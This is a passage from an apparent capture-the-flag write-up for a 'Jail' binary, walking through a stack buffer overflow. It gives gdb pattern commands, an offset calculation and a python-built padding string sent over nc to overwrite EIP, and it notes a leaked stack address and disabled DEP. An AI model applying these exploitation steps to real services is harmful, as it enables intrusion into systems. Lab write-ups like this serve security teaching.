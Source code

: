 ```bash
# ESP: 0xffffc7d0 ('A' <repeats 200 times>...)
# EIP: 0x41414141 ('AAAA')
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have confirmed that the binary is vulnerable to a **stack overflow**, the first thing I need to figure out is the exact value of characters I need to send to take control of the **EIP** pointer. I can do this easily thanks to the `gdb` tools that allow me to generate special **patterns** and then calculate the **offset** to the **EIP** value. Once I have this value, I generate a special string with `python` and check that the registers have the values I entered when interacting with the binary through `nc`. I can now enter the value I want in **EIP**, which would allow me to control the flow of the program, but before continuing I remember that the program allowed me to run it in **DEBUG** mode, and doing so leaks a **very suspicious address**. I **[analyze with `gdb` this address](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
){:target="_blank"}** after produced the **Buffer Overflow** and everything would indicate that it coincides with the **base of the stack** (a very important address). I also remember that **DEP** is disabled which would allow me to execute malicious code directly from the memory (but I have a hunch that it won't work so easily).

```bash
gdb ./jail
  set detach-on-fork off
  set follow-fork-mode child
  pattern_create 300
  r

nc localhost 7411
  USER admin
  PASS AAA%AA...A%6A%

  pattern_offset AA;A

gdb ./jail
  set detach-on-fork off
  set follow-fork-mode child
  r

python3 -c 'print ("A" * 28 + "B" * 4 + "C" * 10)'
nc localhost 7411
  USER admin
  PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCC

gdb ./jail
  set detach-on-fork off
  set follow-fork-mode child
  r

nc localhost 7411
```